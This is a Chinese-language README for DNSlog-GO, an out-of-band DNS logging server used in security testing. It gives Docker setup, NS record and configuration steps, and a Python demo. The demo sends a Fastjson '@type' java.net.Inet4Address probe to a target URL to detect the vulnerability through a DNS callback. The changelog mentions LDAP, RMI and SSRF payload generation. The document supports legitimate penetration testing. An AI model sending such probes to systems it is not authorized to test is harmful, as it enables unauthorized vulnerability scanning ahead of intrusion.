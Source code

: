 ## DNSlog-GO <https://github.com/lanyi1998/DNSlog-GO>
<!--auto_detail_badge_begin_0b490ffb61b26b45de3ea5d7dd8a582e-->
![Language](https://img.shields.io/badge/Language-Golang-blue)
![Author](https://img.shields.io/badge/Author-lanyi-orange)
![GitHub stars](https://img.shields.io/github/stars/lanyi1998/DNSlog-GO.svg?style=flat&logo=github)
![Version](https://img.shields.io/badge/Version-V2.2.0-red)
![Time](https://img.shields.io/badge/Join-20220316-green)
<!--auto_detail_badge_end_fef74f2d7ea73fcc43ff78e05b1e7451-->

DNSLog-GO 是一款golang编写的监控 DNS 解析记录的工具，自带多用户WEB界面

演示截图:

![avatar](https://github.com/lanyi1998/DNSlog-GO/raw/master/images/demo.png)

安装
---

详细图文教程:https://mp.weixin.qq.com/s/m_UXJa0imfOi721bkBpwFg

# 1.获取发行版

这里 https://github.com/lanyi1998/DNSlog-GO/releases 下载最新发行版,并解压

或者docker启动
```shell
wget https://raw.githubusercontent.com/lanyi1998/DNSlog-GO/master/config.yaml
#修改你的config.yaml文件
docker run -d -p 53:53 -p 53:53/udp -p 8000:8000 -v `pwd`/config.yaml:/DNSlog-GO/config.yaml --name dnslog --privileged lanyi1998/dnslog-go:latest
#设置开机启动
docker update --restart=always dnslog
```

# 2.域名与公网 IP 准备

```
搭建并使用 DNSLog，你需要拥有一个域名如(a.com),还需要有一个公网 IP 地址(如：1.1.1.1)
    
修改 a.com 的 NS 记录为 

NS1.vpsip.NIP.IO
NS2.vpsip.NIP.IO

如 
ns1.1.1.1.1.nip.io
ns1.1.1.1.1.nip.io

本步骤中，需要在域名提供商提供的页面进行设置，部分域名提供商只允许修改 NS 记录为已经认证过的 NS 地址。所以需要找一个支持修改 NS 记录为自己 NS 的域名提供商。
    
注意: NS 记录修改之后部分地区需要 24-48 小时会生效
```

# 3.修改配置文件 config.ini

```
HTTP:
  port: 8000 //http web监听端口
  #{"token":"用户对应子域名"}
  user: { "admin": "admin" } //用户admin 对应的dnslog子域名是 admin.demo.com
  consoleDisable: false  //是否关闭web页面
Dns:
  domain: demo.com //dnslog域名
```

# 4.启动对应系统的客户端

**注意服务端重启以后，如果修改了用户对应子域名，必须清空一下浏览器中的localStorage,否则会获取不到数据**

---

API Python Demo

```python
import requests
import random
import json


class DnsLog():
    domain = ""
    token = ""
    Webserver = ""

    def __init__(self, Webserver, token):
        self.Webserver = Webserver  # dnslog的http监听地址，格式为 ip:端口
        self.token = token  # token
        # 检测DNSLog服务器是否正常
        try:
            res = requests.post("http://" + Webserver + "/api/verifyToken", json={"token": token}).json()
            self.domain = res.Msg
        except:
            exit("DnsLog 服务器连接失败")
        if res["Msg"] == "false":
            exit("DnsLog token 验证失败")

    # 生成随机子域名
    def randomSubDomain(self, length=5):
        subDomain = ''.join(random.sample('zyxwvutsrqponmlkjihgfedcba', length)) + '.' + self.domain
        return subDomain

    # 验证子域名是否存在
    def checkDomain(self, domain):
        res = requests.post("http://" + self.Webserver + "/api/verifyDns", json={"Query": domain},
                            headers={"token": self.token}).json()
        if res["Msg"] == "false":
            return False
        else:
            return True


url = "http://192.168.41.2:8090/"

dns = DnsLog("1111:8888", "admin")

subDomain = dns.randomSubDomain()

payload = {
    "b": {
        "@type": "java.net.Inet4Address",
        "val": subDomain
    }
}

requests.post(url, json=payload)

if dns.checkDomain(subDomain):
    print("存在FastJosn")
```

<!--auto_detail_active_begin_e1c6fb434b6f0baf6912c7a1934f772b-->
## 项目相关


## 最近更新

#### [v2.2.0] - 2025-08-22

**添加**  
- 添加 LDAP 和 RMI 协议的 payload
- 在 copyText 方法中增加了 LDAP 和 RMI 协议的 payload生成
- 使用 location.protocol 和 location.host 生成 SSRF payload
 - 将 domain 的第一个部分作为 subdomain 使用
 - 添加了换行符以提高代码可读性
 

#### [v2.1.4] - 2025-07-22

**修复**  
- getDnsData_clear api死锁的问题

#### [v1.5.7] - 2025-04-09

**修复**  
- 修复8.8.8.8无法收到记录的bug

#### [v1.5.2] - 2022-06-08

**更新**  
- 通过配置文件，可固定每个用户对应的子域名。避免每次重启后，用户对应的子域名发生变动

<!--auto_detail_active_end_f9cf7911015e9913b7e691a7a5878527-->
